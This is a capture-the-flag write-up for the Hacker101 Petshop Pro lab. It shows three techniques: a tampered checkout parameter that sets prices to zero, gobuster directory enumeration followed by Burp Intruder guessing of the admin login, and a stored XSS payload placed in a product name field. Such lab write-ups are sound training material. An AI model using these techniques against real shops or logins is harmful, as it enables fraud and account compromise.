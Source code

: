 
## flag 1
>Something looks out of place with checkout<br>
 It's always nice to get free stuff


add anything to the cart, then check out while intercepting the request
![image](https://github.com/0xbazooka/Hacker101/assets/99322823/2b4b40ba-e0af-4474-8efd-683525f43d07)


the "cart" parameter is URL-encoded ,and it contains two elements: a list of items and their corresponding quantities in the shopping cart
change the price to 0
`[[0, {"name": "Kitten", "desc": "8\"x10\" color glossy photograph of a kitten.", "logo": "kitten.jpg", "price": 0}], [0, {"name": "Kitten", "desc": "8\"x10\" color glossy photograph of a kitten.", "logo": "kitten.jpg", "price": 0}]]`

et voila !

![image](https://github.com/0xbazooka/Hacker101/assets/99322823/80593713-7714-4dbe-9683-619563100db1)

<br><br><br>
## flag 2
>There must be a way to administer the app<br>
>Tools may help you find the entrypoint<br>
>Tools are also great for finding credentials<br>


run any directory enumeration tool you like, I used gobuster 

```
gobuster dir -u https://3b71fd43f1fb10e3401857b7bf59ed00.ctf.hacker101.com/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o petshop.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://3b71fd43f1fb10e3401857b7bf59ed00.ctf.hacker101.com/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/07/18 16:10:54 Starting gobuster in directory enumeration mode
===============================================================
/login                (Status: 200) [Size: 329]
/static               (Status: 301) [Size: 169] [--> http://3b71fd43f1fb10e3401857b7bf59ed00.ctf.hacker101.com/static/]                                                                                                                   
/cart                 (Status: 200) [Size: 410]
/edit                 (Status: 400) [Size: 167]
/checkout             (Status: 405) [Size: 153]
Progress: 32776 / 220561 (14.86%)^C
[!] Keyboard interrupt detected, terminating.

===============================================================
2023/07/18 16:31:52 Finished
===============================================================
```

found an admin login page at /login

using burp intruder to guess each of the username:

![image](https://github.com/0xbazooka/Hacker101/assets/99322823/82fd430e-660d-485f-b37c-a5bf3735b319)

and the pass:

![image](https://github.com/0xbazooka/Hacker101/assets/99322823/69e12bc9-230a-4213-8ece-c05d7fdd6576)

trying them in the login page, it redirects us to the admin page and we get the flag.
![image](https://github.com/0xbazooka/Hacker101/assets/99322823/28b2b376-be38-4b44-9b71-675e32de9c68)

<br><br><br>
## flag 3
>Always test every input
Bugs don't always appear in a place where the data is entered

edit one of the posts

tried xss payload `<img src=x onerror="alert(1)">` in the name field, save then go back to the cart and the flag is there

![image](https://github.com/0xbazooka/Hacker101/assets/99322823/863a9099-8fca-44c2-8d99-5ba19c0b07f6)


